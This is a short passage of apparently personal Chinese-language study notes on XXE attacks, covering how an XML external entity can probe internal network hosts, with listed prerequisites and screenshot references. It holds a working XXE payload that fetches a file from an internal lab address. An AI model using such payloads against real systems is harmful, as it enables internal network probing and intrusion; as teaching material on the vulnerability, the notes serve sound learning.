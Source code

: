 #### 玩法-内网探针或攻击内网应用（触发漏洞地址）

**实际应用中基本碰不到**

**前提条件**  

- 内网IP地址
- 开放端口
- 纯在xxe漏洞
- 构造漏洞地址

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://192.168.80.1:80/test.txt" >
]>
<x>&rabbit;</x>

```

![](image39/QQ截图20220329203626.png)

网站根目录下 	test.txt

![](image39/QQ截图20220329203746.png)



![](image39/QQ截图20220329204024.png)
